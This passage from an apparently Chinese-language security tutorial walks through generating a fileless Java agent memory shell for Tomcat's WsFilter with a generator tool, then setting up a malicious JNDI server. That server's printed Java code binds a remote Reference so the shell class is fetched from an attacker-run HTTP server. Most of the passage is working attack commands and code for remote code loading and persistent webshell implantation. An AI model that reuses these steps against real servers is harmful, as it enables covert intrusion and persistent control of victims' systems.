 ```plain
java -jar .\FilelessAgentMemshellGenerator.jar -b 64 -c "org.apache.tomcat.websocket.server.WsFilter" -i false -o "Windows" -p .\WsFilter.class -t false
```

弹出警告，但还是成功生成了所需的类文件[![](assets/1701678277-2b5791e9a5503cc9c6fcda7f8f780e65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224345-dd51c44e-8f8e-1.png)

在工具同目录的out文件夹下可找到`AgentMemShell.class`

### 配置JNDI服务器

**JNDI恶意服务器可以用ysomap等工具快速部署**，这里简单讲讲手工步骤

首先需要启动一个**RMI服务或者LDAP服务**，随便绑定一个远程对象上去

接着使用`python -m http.server`在此目录开启一个Http服务

将引用的地址设置为Http服务的URL，如`http://localhost:8000/`，设置类名和工厂名

`Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");`

再将引用重绑定给JNDI服务

`InitialContext initialContext = new InitialContext();`

`initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);`

**最后启动JNDI服务**

```plain
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");
        initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);
    }
}
```
